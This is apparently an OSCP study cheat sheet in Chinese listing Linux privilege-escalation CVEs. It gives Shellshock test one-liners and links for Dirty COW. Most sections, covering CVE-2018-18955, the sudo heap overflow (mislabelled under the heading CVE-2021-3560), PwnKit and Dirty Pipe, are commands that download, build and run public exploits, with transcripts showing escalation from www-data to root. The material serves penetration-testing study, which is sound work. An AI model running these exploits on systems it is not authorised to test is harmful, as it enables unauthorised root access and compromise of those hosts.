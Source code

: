 ```yaml
---
layer: article
title: Common-Linux-Vulnerabilities
tags: oscp
---
```




## 破壳 CVE-2014-6271

```bash
env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"
```

演示：<https://github.com/vulhub/vulhub/tree/3a513cc4d40b5bf9035a2774b82ab56c9676bda7/bash/CVE-2014-6271>

## 破壳变种  CVE-2014-7169

```bash
env X='() { (shellshocker.net)=>\' bash -c "echo date"; cat echo; rm ./echo
```

## 破壳变种  CVE-2014-7186

```bash
$ bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || 
echo "CVE-2014-7186 vulnerable, redir_stack"
```

## 破壳变种  CVE-2014-7187

```bash
$ (for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno"
```

## 破壳变种  CVE-2014-6278

```bash
shellshocker='() { echo You are vulnerable; }' bash -c shellshocker
```

## 破壳变种  CVE-2014-6277

```bash
bash -c "f() { x() { _;}; x() { _;} <<a; }" 2>/dev/null || echo vulnerable
```

## 脏牛 CVE-2016-5195

**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## 大脏牛 CVE-2017-1000405

**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## CVE-2018-18955



```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47166.zip
unzip 47166.zip
cd ldpreload
./exploit.ldpreload.sh

```

https://bugs.chromium.org/p/project-zero/issues/detail?id=1712

https://github.com/scheatkode/CVE-2018-18955

## CVE-2021-3560

### 帮助

<https://github.com/worawit/CVE-2021-3156>

### 实例

```bash
/tmp$ git clone https://github.com/worawit/CVE-2021-3156
/tmp$ cd CVE-2021-3156
/tmp/CVE-2021-3156$ python exploit_nss.py 
# whoami
root
```



## CVE-2021-4034

### 帮助

<https://github.com/berdav/CVE-2021-4034>

### 实例

```bash
/tmp$ git clone https://github.com/berdav/CVE-2021-4034
git clone https://github.com/berdav/CVE-2021-4034
Cloning into 'CVE-2021-4034'...
remote: Enumerating objects: 92, done.        
remote: Counting objects: 100% (36/36), done.        
remote: Compressing objects: 100% (17/17), done.        
remote: Total 92 (delta 24), reused 19 (delta 19), pack-reused 56        
Unpacking objects: 100% (92/92), done.
/tmp$ cd CVE*
cd CVE*
/tmp/CVE-2021-4034$ ls
ls
cve-2021-4034.c   dry-run  Makefile  README.md
cve-2021-4034.sh  LICENSE  pwnkit.c
/tmp/CVE-2021-4034$ pwd
pwd
/tmp/CVE-2021-4034
/tmp/CVE-2021-4034$ make
make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
/tmp/CVE-2021-4034$ whoami
whoami
www-data
/tmp/CVE-2021-4034$ ./cve-2021-4034
./cve-2021-4034
# whoami
whoami
root
```



## 脏管 CVE-2022-0847

1. poc by [Arinerron](https://github.com/Arinerron)

<https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/exploit.c>

执行后密码root修改为`aaron`

2. poc by [r1is](https://github.com/r1is)

<https://github.com/r1is/CVE-2022-0847/blob/main/Dirty-Pipe.sh>

执行后获得root shell

```bash
git clone https://github.com/r1is/CVE-2022-0847.git
cd CVE-2022-0847
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
```

还有几个待补充

**参考：[CVE-2022-0847 Linux 脏管漏洞分析与利用](https://www.freebuf.com/vuls/331378.html)**
